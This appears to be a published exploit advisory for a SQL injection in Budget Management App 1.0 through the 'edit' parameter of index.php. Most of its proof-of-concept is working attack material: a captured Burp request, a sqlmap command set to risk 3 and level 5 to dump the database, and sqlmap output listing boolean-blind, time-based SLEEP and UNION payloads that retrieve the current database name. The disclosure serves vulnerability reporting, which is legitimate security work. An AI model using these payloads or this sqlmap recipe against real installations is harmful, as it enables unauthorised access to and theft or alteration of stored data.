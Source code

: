 # Budget Management App - SQL Injection - 1
+ **Exploit Title:** Budget Management App - SQL Injection - 1
+ **Date:** 2024-12-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/budget-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/1c10fce2-3260-479b-878f-b2107dec72f9
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Budget Management App 1.0 allows SQL Injection via the 'edit' parameter at "http://localhost//PHP-Budget-Calculator/index.php?edit=2. 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/PHP-Budget-Calculator/index.php"
+ Click edit button.
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /PHP-Budget-Calculator/index.php?edit=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'edit' parameter to dump the database.
```
sqlmap -r r.txt -p edit --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: edit (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: edit=2 AND 4090=(SELECT (CASE WHEN (4090=4090) THEN 4090 ELSE (SELECT 3329 UNION SELECT 9133) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: edit=2 AND (SELECT 8766 FROM (SELECT(SLEEP(5)))zPTF)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: edit=2 UNION ALL SELECT NULL,NULL,CONCAT(0x7171716a71,0x74747458684b75667677586a435954536c7656734b695759664c6e41596b547443636e68504d6c52,0x7176766a71)-- -
---
[10:58:08] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:58:08] [INFO] fetching current database
current database: 'budget_calculator'

```
+ current database: `budget_calculator`

![Ekran görüntüsü 2024-05-15 224958](https://github.com/BurakSevben/CVEs/assets/117217689/b95e7696-00c0-4a21-841c-286243317372)

